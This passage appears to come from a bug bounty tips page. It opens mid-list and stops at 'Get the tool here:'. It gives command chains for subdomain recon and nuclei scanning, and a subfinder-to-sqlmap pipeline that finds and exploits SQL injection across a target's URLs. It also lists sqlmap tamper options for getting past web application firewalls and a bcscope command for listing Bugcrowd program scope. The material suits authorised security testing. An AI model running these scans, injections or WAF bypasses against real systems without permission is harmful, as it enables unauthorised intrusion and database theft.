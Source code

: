 2-

```
cat domain.txt | httpx -o domainhttpx.txt
```

3-

```
cat domainhttpx.txt | nuclei -t /home/xalgord/nuclei-templates
```

DONE 😎

#### Find SQL injections (command combo)

```
subfinder -d target.com | tee -a domains
cat domains | httpx | tee -a urls.alive
cat urls.alive | waybackurls | tee -a urls.check
gf sqli urls.check >> urls.sqli
sqlmap -m urls.sqli --dbs --batch
```

Here’s what’s going on in detail:

1. First we will find all subdomains under our target domain.
2. Next we will identify all alive web servers running on those subdomains.
3. Waybackurls will fetch all URLs that the Wayback Machine knows about the identified alive subdomains.
4. Now we will filter out URLs that match patterns with potential SQL injection.
5. The final step is to run sqlmap on all identified potentially vulnerable URLs and let it do its magic.

Protip: If you need to bypass WAF (Web Application Firewall) in the process, add the following options to sqlmap:

```
--level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned
```

#### Get scope of Bugcrowd programs in CLI

There is a new tool in town called bcscope which can get you the scope of all bug bounty programs available on Bugcrowd platform, including the private ones.

All you have to do is to provide your Bugcrowd token like this:

```
bcscope -t <YOUR-TOKEN-HERE> -c 2 -p
```

![alt text](https://www.infosecmatter.com/wp-content/uploads/2020/10/list-scope-for-bugcrowd-bug-bounty-programs.jpg)

Quite convenient and pretty useful!

Get the tool here:

